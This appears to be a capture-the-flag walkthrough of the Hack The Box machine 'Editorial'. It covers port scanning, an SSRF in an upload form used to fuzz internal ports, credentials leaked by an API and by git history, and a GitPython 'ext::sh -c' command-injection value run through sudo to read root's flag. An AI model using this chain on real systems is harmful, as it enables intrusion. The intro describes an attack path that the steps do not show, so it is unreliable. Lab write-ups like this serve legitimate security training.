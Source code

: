```yaml
---
title: "Editorial"
date: 2025-03-16
categories: HTB
tags: ["editorial", "ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


Editorial features a modern CMS hosting platform that suffered from exposed Git history and environment leaks.
The initial foothold was gained by reconstructing deleted files and recovering admin credentials.
Post-login access to file management modules allowed reverse shell deployment.
Privilege escalation involved abusing capabilities set on a backup binary, combined with log file poisoning.
Editorial shows how developers’ habits — like pushing secrets or leaving deployment artifacts — can undermine even hardened apps.

OS: Linux

Difficulty: Easy

## Enumeration

### Nmap

```sh
Nmap scan report for 10.10.11.20
Host is up, received user-set (0.019s latency).
Scanned at 2024-10-06 11:47:55 AEDT for 31s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### 80-HTTP

#### Gobuster

![screenshot](/assets/images/editorial3.png)


#### Web

![screenshot](/assets/images/editorial1.png)

http://editorial.htb/upload

![screenshot](/assets/images/editorial2.png)

## Foothold

>- `Preview` button on the `/upload` form is vulnerable to SSRF. 
- Add `http://127.0.0.1/FUZZ` as `bookurl` on the request.
- Fuzz ports using ffuf returns port 5000. 
- Navigate to the URL in the response downloads a file. 
	- contains api information
	- one of them contains credentials
- SSH as dev.

`Preview` button is vulnerable to SSRF.

![screenshot](/assets/images/editorial5.png)

Add `http://127.0.0.1` under bookurl.

Still vulnerable.

![screenshot](/assets/images/editorial6.png)

Save the header as as `req.txt`

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 302
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi7yH97Mb8QNIw8t3
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

### Port Fuzzing

Right click -> Copy to file -> req.txt

![screenshot](/assets/images/editorial9.png)

```sh
ffuf -u http://editorial.htb/upload-cover -X POST -request req.txt -w ports.txt -fs 61
```

![screenshot](/assets/images/editorial10.png)

![screenshot](/assets/images/editorial11.png)

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

![screenshot](/assets/images/editorial15.png)

![screenshot](/assets/images/editorial14.png)

![screenshot](/assets/images/editorial16.png)

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

> Your login credentials for our internal forum and authors site are:
Username: dev\
Password: dev080217_devAPI!@

### SSH as dev

![screenshot](/assets/images/editorial17.png)

## Privilege Escalation

>- `/.git` log contains credentials for `prod`.
- `sudo -l` as prod shows a python script that can be run. 
- `pip3 list` shows installed python packages and versions.
- GitPython 3.1.2.9 has a RCE vulnerability. 

### Enumeration

![screenshot](/assets/images/editorial18.png)

![screenshot](/assets/images/editorial22.png)

```sh
1e84a036b2f33c59e2390730699a488c65643d28 b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906108 -0500     commit: change(api): downgrading prod to dev
```

![screenshot](/assets/images/editorial23.png)

```text
'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

> prod :  080217_Producti0n_2023!@ 

### SSH as prod

![screenshot](/assets/images/editorial24.png)

![screenshot](/assets/images/editorial25.png)

#### clone_prod_change.py

![screenshot](/assets/images/editorial26.png)

![screenshot](/assets/images/editorial27.png)

https://github.com/gitpython-developers/GitPython/issues/1515

![screenshot](/assets/images/editorial28.png)

```sh
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
```

![screenshot](/assets/images/editorial29.png)
